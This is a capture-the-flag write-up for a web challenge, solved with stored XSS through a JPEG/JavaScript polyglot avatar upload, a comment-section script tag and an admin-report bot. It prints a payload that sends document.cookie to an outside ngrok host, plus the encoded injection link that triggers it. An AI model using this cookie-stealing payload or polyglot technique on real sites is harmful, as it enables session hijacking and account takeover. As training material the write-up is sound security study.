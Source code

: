 🚩 4th Challenge

### Question

![1.png](./assets/1.png)
> Link: http://54.82.54.16/

### Solution
- This is how the website looks like
- ![2.png](./assets/2.png)
- This challenge was another nice challenge but the cool thing was that we saw it before in another CTF (CyberWarriors-JordanCTF) that me and my team participated in and got the 19th place
- We couldn't solve it then but we knew how to solve it after the CTF ended from this [writeup](https://zoznoor23.medium.com/yogosha-christmas-ctf-kara-jutsus-access-write-up-4ff3f67984a3) by the talented **Hamza Nour**
- So what's better than nice & already solved challenge before to solve again? 😀
- So we know it's an **XSS** because there is a **bot link (admin report)** and **profile picture upload**!
- ![3.png](./assets/3.png)
- When searching for `XSS through jpg image` you will find this [article](https://medium.com/@Medusa0xf/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a) _(Hiding Javascript code inside JPG image using **Polyglot**)_
- There is this [amazing tool](https://github.com/js-on/jpeg_polyglot_xss) to create polyglot payloads, this way is better and easier than the ways explained in the references above (but they explain how it works tho which is nice to know) _[Unfortunately this tool didn't work for me tho, it might work for you? maybe - but later on I found out it's probably missing some characters from the original exploit explanation]_
- We need to create a payload to be inside a JPEG image to upload it as our avatar to the website
- ![5.png](./assets/5.png)
- Then there is a comment section which confirms in Home it's an XSS exploit
- ![8.png](./assets/8.png)
- When you submit that you see our XSS portal in the url and the comment being added to the home page
- ![9.png](./assets/9.png)
- Amazing! now to the cool part
- Instead of using the mentioned tool above which didn't work me, I read this [article from portswigger](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
- They've already crafted the [injected image](http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg) for you, all you have to do is to upload it and use burp repeater to edit the payload as follows
    - Open burp & start intercepting
    - Choose the injected image above and submit uploading it to the website
    - In burp, send the request to repeater and stop intercepting
    - Request should look like this in repeater
    - ![13.png](./assets/13.png)
- Now change the burp's payload (selected above) to your payload (below)
- `*/=document.location='https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io/test?'+document.cookie/*`
- Send the request
- ![14.png](./assets/14.png)
- Once uploaded/sent you will get a warning and a `File is an image` message which means our injected image has been uplaoded successfully
- ![6.png](./assets/6.png)
- Now we need to get the file path of that avatar on the website using the HTML source code (Ctrl+U OR Right-Click > Inspect Element OR from burp response)
- ![7.png](./assets/7.png)
- Our image path was `./upload/1672270999151187401.jpg` which is `http://54.82.54.16//upload/1672270999151187401.jpg`and type that as a URL your injected image will be downloaded
- Now we need to add that image source to the home page using the comments section
- Note that we need to use `charset="ISO-8859-1"` in the script element due to this
- > On Firefox when using a UTF-8 character set for the document it corrupts the polyglot when included as an script! So to get the script to work we need to specify the ISO-8859–1 charset on the script tag and it executes fine.
- Here is our comment
```html
<script charset="ISO-8859-1" src="./upload/1672270999151187401.jpg"></script>
```
- ![10.png](./assets/10.png)
- This is the XSS link
```css
http://54.82.54.16//index.php?name=F30s&email=ayham&subject=IsHere&message=%3Cscript+charset%3D%22ISO-8859-1%22+src%3D%22.%2Fupload%2F1672270999151187401.jpg%22%3E%3C%2Fscript%3E&subcom=test
```
- Now we need to make the bot (in Admin Report) go to this XSS link
- ![11.png](./assets/11.png)
- VOILAAAA!!! You got the flag!
- ![12.png](./assets/12.png)
> Flag: `FLAG{K4ra_OnCe_Alw4y5_Kara????}`
